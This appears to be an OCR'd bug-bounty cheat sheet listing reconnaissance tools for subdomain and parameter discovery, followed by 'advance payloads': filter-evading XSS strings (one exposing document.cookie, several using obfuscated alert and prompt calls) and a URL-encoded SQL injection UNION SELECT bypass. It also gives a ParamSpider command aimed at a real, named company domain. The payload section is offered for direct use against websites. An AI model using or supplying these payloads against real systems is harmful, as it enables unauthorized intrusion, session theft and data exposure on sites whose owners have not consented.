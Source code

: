  	 and juicy Subdomains

### tips to crawl
	webpaste
  
	meg -path find
  
	ffuf -path ''
  
	concurl -path ''
  
	comm -compares sorted files
  
	gau -fetch js files
  
	find -to list directory
  
	Arjun - Find parameters on a specific endpoint

---
### Advance Payloads:-
#### for XSS

	1. <marquee loop=1 width=0 onfinish=pr\u006fmpt(document.cookie)>Y000</marquee>  

			'">><marquee><img src=x onerror=confirm(1)></marquee>"
      
			></plaintext\></|\><plaintext/onmouseover=prompt(1)
      
			><script>prompt(1)</script>@gmail.com<isindex
      
			formaction=javascript:alert(/XSS/) type=submit>'-->"
      
			></script><script>alert(1)</script>"><img/id="confirm&lpar;
      
			1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http://i.imgur.com/P8mL8.jpg">
      ';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
			></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))
			</SCRIPT>

			“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
#### for SQL injection used URL encode
	2. /*!50000%75%6e%69on*/%73%65%6cect 1,2,3,4,...                                     

---
### Personal Recommended tools (Left to Right Priority):-

#### for subdomains

	1. Subfinderv2,Amass,Sublister,crtsh   

#### for Finding Parameters 

	2. Arjun,ParamSpider,Parameth 
	ex: for paramspider:- python3 paramspider.py --domain healthifyme.com --exclude woff,css,js,png,svg,php,jpg --output healthifyme.txt
  